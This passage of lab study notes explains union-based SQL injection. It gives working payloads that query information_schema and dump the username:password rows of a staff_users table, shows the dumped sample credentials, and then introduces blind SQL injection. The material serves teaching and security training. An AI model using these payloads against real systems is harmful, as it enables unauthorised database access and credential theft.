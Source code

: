 ```

Article ID: 1
article,staff_users
```
* The aim is to discover Martin's password so the `staff_users` table is what is of interest.
* Utilise the `information_schema` database again to find the structure of this table using the query:
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
* The information to retrieve has changed from `table_name` to `column_name`, the table being queried in the `information_schema` database has changed from `tables` to `columns`, and rows are being searched where the `table_name` column has a value of `staff_users`.
* The query results provide three columns for the `staff_users` table: `id`, `password`, and `username`:
```
2

Article ID: 1
id,username,password
```
* Use the `username` and `password` columns for the next query to retrieve the user's information:
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
* Use the `group_concat` method to return all of the rows into one string and to make it easier to read.
* Add `,':',` to split the username and password from each other.
* Use the HTML `<br` tag that forces each result to be on a separate line to make for easier reading instead of being separated by a comma.
```
2

Article ID: 1
admin:p4ssword
martin:pa$$word
jim:work123
```

### Union-Based SQL Injection
* Utilises the SQL `UNION` operator alongside a `SELECT` statement to return additional results to the page.
* This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.

## Blind SQL Injection - Authentication Bypass
* Blind SQLi is when there is little to no feedback to confirm whether injected queries were successful or not.
* This is because the error messages have been disabled, but the injection still works regardless.
* All is needed is that little bit of feedback to successfully enumerate a whole database.
